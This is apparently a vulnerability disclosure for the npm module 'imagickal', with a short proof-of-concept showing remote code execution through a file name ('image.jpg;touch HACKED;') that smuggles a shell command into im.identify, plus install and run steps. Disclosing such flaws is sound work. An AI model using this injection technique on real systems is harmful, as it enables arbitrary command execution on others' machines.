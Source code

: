 # Description

Remote Code Execution (RCE) in imagickal

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var im = require('imagickal');
im.identify('image.jpg;touch HACKED;').then(function (data) {
  console.log(data);
});
```

2. Execute the following commands in terminal:

```
npm i imagickal # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution
